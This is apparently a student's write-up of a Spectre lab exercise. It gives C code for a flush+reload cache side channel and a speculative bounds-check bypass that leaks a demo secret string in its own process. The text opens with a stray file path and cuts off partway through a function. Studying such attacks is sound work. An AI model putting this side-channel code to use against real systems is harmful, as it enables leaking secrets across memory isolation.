 ```c=
  size_t larger_x = (size_t)(secret - (char*)buffer);  
  spectreAttack(larger_x+10);
  reloadSideChannel();
  return (0);

}
```
![](https://i.imgur.com/8IzAKBO.png)
### task5 Improve the Attack Accuracy
![](https://i.imgur.com/ydOokbA.png)
![](https://i.imgur.com/pARVJHJ.png)
### task6 Stealing the Entire Secret String
```c=
#include <emmintrin.h>
#include <x86intrin.h>
#include <stdlib.h>
#include <stdio.h>
#include <stdint.h>

unsigned int buffer_size = 10;
uint8_t buffer[10] = {0,1,2,3,4,5,6,7,8,9}; 
uint8_t temp = 0;
char *secret = (char*)"Some Secret Value";
uint8_t b[3*4096];
uint8_t array[257*4096];

#define CACHE_HIT_THRESHOLD (90)
#define DELTA 1024

// Sandbox Function
uint32_t restrictedAccess(size_t x)
{
  if (x < buffer_size) {
     return buffer[x];
  } else {
     return 256;
  } 
}

void flushSideChannel()
{
  int i;
  // Write to array to bring it to RAM to prevent Copy-on-write
  for (i = 0; i < 256; i++) array[i*4096 + DELTA] = 1;
  //flush the values of the array from cache
  for (i = 0; i < 256; i++) _mm_clflush(&array[i*4096 +DELTA]);
}

static int scores[256];
void reloadSideChannelImproved()
{
int i;
  volatile uint8_t *addr;
  register uint64_t time1, time2;
  uint32_t junk = 0;
  for (i = 0; i < 256; i++) {
    addr = &array[i * 4096 + DELTA];
    time1 = __rdtscp(&junk);
    junk = *addr;
    time2 = __rdtscp(&junk) - time1;
```